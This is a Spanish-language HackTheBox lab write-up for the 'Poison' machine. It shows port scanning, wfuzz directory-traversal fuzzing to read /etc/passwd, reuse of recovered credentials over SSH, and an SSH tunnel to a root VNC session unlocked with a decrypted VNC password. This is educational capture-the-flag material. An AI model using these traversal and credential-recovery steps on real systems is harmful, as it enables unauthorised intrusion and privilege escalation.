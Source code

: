```yaml
---
layout      : post
title       : "Poison - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/Poison-HackTheBox/Poison.webp
optimized_image : /assets/images/HTB/Poison-HackTheBox/Poison.webp
category    : [ htb ]
tags        : [ FreeBSD ]
description : En esta ocasión estaré resolviendo una máquina de nivel MEDIUM de HackTheBox en la que tendremos que explotar la vulnerabilidad Directory Path Transversal y a través de procesos en ejecución encontraremos el servicio VNC y tendremos que crear un Túnel ssh para acceder al mismo.
---
```


En esta ocasión estaré resolviendo una máquina de nivel MEDIUM de HackTheBox en la que tendremos que explotar la vulnerabilidad Directory Path Transversal y a través de procesos en ejecución encontraremos el servicio VNC y tendremos que crear un Túnel ssh para acceder al mismo.

![](/assets/images/HTB/Poison-HackTheBox/Poison2.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

![](/assets/images/HTB/Poison-HackTheBox/Poison-rating.webp)

...


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Enumeración](#enumeración).
    * [Enumeración Web](#enum-web).
3. [Sesión SSH](#sesion-ssh).   
    * [SSH](#ssh).
 5. [Escalada de Privilegios](#privesc). 
    * [VNC](#vnc).   

...

# Reconocimiento [#](reconocimiento) {#reconocimiento}

----

## Reconocimiento de Puertos [📌](#recon-nmap) {#recon-nmap}

```nmap
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Tenemos el puerto 22 (ssh) y el puertto 80 (http)

Escaneo un poco más a fondo para encontrar más información al respecto.

```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

# Enumeración [#](enumeración) {#enumeración}

----

## Enumeración Web [📌](#enum-web) {#enum-web}

Al acceder desde el navegador para revisar el servidor web vemos lo siguiente:

![](/assets/images/HTB/Poison-HackTheBox/web1.webp)

Si añadimos en el campo el parámetro listfiles.php

![](/assets/images/HTB/Poison-HackTheBox/web2.webp)

Podemos ver que hay un archivo llamado pwdbackup.txt

![](/assets/images/HTB/Poison-HackTheBox/web3.webp)

En el hay una contraseña encodeada en base64 13 veces.

Tras decodear la cadena base64 13 veces encontramos la contraseña.

> Charix!2#4%6&8(0 

Tenemos una contraseña pero aún nos falta un usuario, asique al ver que en el servidor web tenemos muchos archivos .php procedo a comprobar si podría existir alguna vulnerabilidad LFI o Directory Transversal.

A través de un diccionario y la herramienta wfuzz compruebo si existe alguna de estas vulnerabilidades.

> `wfuzz -c -w /usr/share/payloadsallthethings/"Directory Traversal"/Intruder/dotdotpwn.txt -u 'http://10.10.10.84/browse.php?file=FUZZ' --hl=4,2`

![](/assets/images/HTB/Poison-HackTheBox/wfuzz.webp)

Todas esas rutas podríamos usar para leer el archivo passwd.

![](/assets/images/HTB/Poison-HackTheBox/passwd.webp)

Tenemos el usuario Charix y su contraseña.

> Charix:Charix!2#4%6&8(0

Ahora intento loguearme con esas credenciales a través de ssh para obtener acceso al sistema.

# Sesión SSH [#](sesion-ssh) {#sesion-ssh}

----

## SSH [🔥](#ssh) {#ssh}

Una vez nos logueamos podemos leer la flag user.txt 

![](/assets/images/HTB/Poison-HackTheBox/user.webp)

# Escalada de Privilegios [#](privesc) {#privesc}

----

## VNC [👽](vcn) {#vnc}

Ahora toca escalar privilegios para leer la flag root.txt

En el directorio de usuario de Charix tenemos un archivo llamado secret.zip

Nos lo descargamos a nuestra máquina atacante

```bash
❯ scp charix@10.10.10.84:/home/charix/secret.zip .
Password for charix@Poison:
secret.zip
```
Y lo descomprimimos usando la contraseña que usamos para conectarnos por ssh (Charix!2#4%6&8(0)

![](/assets/images/HTB/Poison-HackTheBox/secret.webp)

Tenemos caracteres no legibles, lo que me hace pensar que estoy yendo por el camino equivocado.

Dejo a un lado el archivo y enumero más vectores de escalada.

Miro los procesos existentes en ejecución con el comando `ps aux`

> `root   529   0.0  0.9  23620  8872 v0- I    22:34    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -d`

```netstat
charix@Poison:~ % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.22         10.10.14.3.54562       ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*                    
udp6       0      0 *.514                  *.*                    
Active UNIX domain sockets
```

Tenemos el servicio VNC activo en el puerto 5901, asique para poder conectarme he de crear un tunel a través de ssh.

Para crear el túnel:

> `ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84`

Una vez creado ya puedo conectarme al servicio VNC a través de la herramienta vncviewer.

Podéis descargar la herramienta VNCViewer desde aquí [https://www.realvnc.com/es/connect/download/viewer/linux/](https://www.realvnc.com/es/connect/download/viewer/linux/)

Lo descargo e intento conectarme pero me pide una contraseña, pruebo con la del usuario Charix pero no funciona.

Pruebo introduciendo los datos del archivo secret que unzipeamos pero nada, asique se me ocurre probar con secret (el nombre del archivo).

Pero tampoco hay suerte... asique intento decodificar el contenido del archivo secret.

Encuentro esta herramienta [https://github.com/trinitronx/vncpasswd.py](https://github.com/trinitronx/vncpasswd.py) 

La consigo decodificar

```vncpass
❯ python2 vncpasswd.py -d -f /home/elc4br4/secret
Decrypted Bin Pass= 'VNCP@$$!'
Decrypted Hex Pass= '564e435040242421'
```

Y ya puedo conectarme.

> `vncviewer 127.0.0.1:5901 -passwd VNCP@$$!`

![](/assets/images/HTB/Poison-HackTheBox/vnc.webp)


